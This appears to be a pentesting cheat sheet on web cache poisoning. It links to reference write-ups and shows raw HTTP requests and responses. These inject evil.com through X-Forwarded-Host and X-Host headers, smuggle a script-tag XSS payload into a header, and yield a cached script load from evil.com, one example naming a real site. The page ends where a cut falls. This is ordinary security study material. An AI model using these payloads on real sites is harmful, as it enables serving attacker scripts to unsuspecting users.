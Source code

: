 ##
#
https://www.cobalt.io/blog/hacking-web-cache-deep-dive-in-web-cache-poisoning-attacks
##
https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner/fork
#
##

# Web Cache Poisoning
## **Introduction**
The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache and served to other users.

https://book.hacktricks.xyz/pentesting-web/cache-deception

https://infosecwriteups.com/cache-poisoning-with-xss-a-peculiar-case-eb5973850814

https://owasp.org/www-community/attacks/Cache_Poisoning



## **How to Find**
1. Basic poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil.com
```
The response is
```
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://evil.com/a.png" />
```
> Or you can input XSS payloads
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: a.\"><script>alert(1)</script>
```
The response is
```
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```
2. Seizing the Cache
```
GET / HTTP/1.1
Host: unity3d.com
X-Host: evil.com
```
The response is
```
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://evil.com/x.js">
</script>
```
3. Selective poisoning